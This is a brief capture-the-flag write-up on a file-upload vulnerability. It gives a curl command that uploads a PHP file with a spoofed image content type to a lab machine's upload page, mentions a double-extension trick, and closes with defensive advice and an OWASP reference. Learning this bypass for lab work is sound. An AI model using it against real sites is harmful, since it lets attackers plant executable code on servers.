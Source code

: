 ### CTF
```bash
    curl -v -F "Upload=Upload" -F "uploaded=@./test.php;type=image/jpg" http://172.20.10.4/\?page\=upload
```
Alternatively, upload a file in the likes of "test.jpg.jpg".

### How to protect yourself

Sanitize every files of the expected type. You can't just trust the user to fill the file with the wanted extensions.  
I don't want to take credit for the sanitizing solutions I found, you can find them [here](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Protect_FileUpload_Against_Malicious_File.md).


